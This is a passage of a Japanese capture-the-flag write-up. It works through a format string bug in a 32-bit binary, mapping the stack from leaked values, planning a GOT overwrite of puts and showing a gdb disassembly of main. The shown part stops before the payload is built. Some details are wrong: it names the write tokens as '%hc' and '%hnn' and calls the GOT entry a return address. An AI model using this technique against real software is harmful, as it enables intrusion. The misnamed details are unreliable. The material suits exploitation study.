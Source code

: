 #### 余談
　逆アセンブル結果から、main関数で使われる変数の合計は `0x420 byte` であることが分かる。

　注意深く変数を拾っていき、`Hi, AAAA,400,f7cdc580,ffb69918,6,0,41414141,252c7825` という読み出し結果を合わせると、以下のようになっているのが分かる。

```sh
#   esp + [0x0  ~ 0x3]    --- 引数1 : input
#   esp + [0x4  ~ 0x7]    --- 引数2 : 0x400
#   esp + [0x8  ~ 0xB]    --- 引数3 : stdin : f7cdc580
#   esp + [0xC  ~ 0xF]    --- ？？？？？ : ffb69918
#   esp + [0x10 ~ 0x13]   --- ？？？？？ : 6
#   esp + [0x14 ~ 0x17]   --- ？？？？？ : 0
#   esp + [0x18 ~ 0x417]  --- char input[400] : 41414141, 252c7825, ...
#   esp + [0x418 ~ 0x41B] --- int canShowFlag = 1 // 4byte
#   esp + [0x41C ~ 0x41F] --- FILE* fp            // ポインタのため 4byte
```

　読み出し結果は `esp + 0x4` ~ `esp + 0x19` までを表示しているわけである。

　`esp + 0x0` ~ `esp +0xB` までは引数として使われているのだが、 `esp + 0xC` ~ `esp + 0x17` の領域が何に使われているのかは最後まで不明だった。気になる人は調べてみて欲しい。

　余談は以上である。

### 攻撃方法の立案

　さて、セキュリティと脆弱性について確認した。これで攻撃方法を確定する。今回は、

- セキュリティ: `no RELRO`
- 脆弱性: `FSB(Format String Bug)`

　という特徴を利用しようと思う。題して、「`Format String Bug` を利用した `GOT overwrite`」。

　※ GOT(Global Offset Table)

### 下準備1 書き換え対象アドレス

　`FSB` を利用すると任意のメモリの値を書き換えることも出来る。これには `%n` `%hc` `%hnn` といった書式トークンを使う（それぞれ 4byte, 2byte, 1byte の書き込みを実現する）。

　`no RELRO` であるため、 `FSB` を使って GOT のリターンアドレスを書き換えることが出来る。

　`GOT overwrite` の対象となるリターンアドレスだが、今回は `puts` 関数のリターンアドレスにしよう。これからそのアドレスを確認する。

```sh
[q4@eceec62b961b ~]$ gdb -q q4
Reading symbols from q4...(no debugging symbols found)...done.
(gdb) disas main
Dump of assembler code for function main:
   0x080485b4 <+0>:     push   %ebp
   0x080485b5 <+1>:     mov    %esp,%ebp
   0x080485b7 <+3>:     and    $0xfffffff0,%esp
   0x080485ba <+6>:     sub    $0x420,%esp
   0x080485c0 <+12>:    movl   $0x80487a4,(%esp)
   0x080485c7 <+19>:    call   0x80484c4 <puts@plt>     # breakpoint 1
   0x080485cc <+24>:    mov    0x8049a04,%eax
   0x080485d1 <+29>:    mov    %eax,0x8(%esp)
   0x080485d5 <+33>:    movl   $0x400,0x4(%esp)
   0x080485dd <+41>:    lea    0x18(%esp),%eax
   0x080485e1 <+45>:    mov    %eax,(%esp)
   0x080485e4 <+48>:    call   0x8048484 <fgets@plt>
   0x080485e9 <+53>:    movl   $0x80487b6,(%esp)
   0x080485f0 <+60>:    call   0x80484b4 <printf@plt>
   0x080485f5 <+65>:    lea    0x18(%esp),%eax
   0x080485f9 <+69>:    mov    %eax,(%esp)
   0x080485fc <+72>:    call   0x80484b4 <printf@plt>
   0x08048601 <+77>:    movl   $0xa,(%esp)
   0x08048608 <+84>:    call   0x8048474 <putchar@plt>
```